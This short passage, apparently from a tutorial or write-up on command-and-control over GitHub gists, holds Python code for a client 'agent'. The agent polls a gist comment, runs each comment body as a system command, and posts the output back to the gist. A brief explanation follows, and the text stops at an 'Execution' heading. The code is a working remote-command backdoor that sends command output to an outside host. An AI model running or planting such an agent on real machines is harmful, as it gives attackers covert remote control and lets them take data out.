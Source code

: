 ### Agent
```python
from github import Github
from github import Auth,InputFileContent
import subprocess
import time
def execute_system_command(cmd):
    output = subprocess.getstatusoutput(cmd)
    return output
auth = Auth.Token("REDACTED_TOKEN")
g = Github(auth=auth)
user = g.get_user()
old_cmd = ""
while True:
    gist = user.get_gist("REDACTED_GIST_ID")
    comment = gist.get_comments()[0]
    if comment.body == "nothing": 
        time.sleep(1)
        continue
    output = execute_system_command(comment.body)[1]
    gist.create_comment(output)
    comment.edit(body="nothing")
```
The code on the client-side authenticates using the generated Personal Access Token (PAT) with gist permissions. It then continuously checks the first command in the gist. If the command is not `nothing`, it executes it and creates a new comment to store the command's output and sets the first comment to `nothing`. This is to check whether there is a new command.

### Execution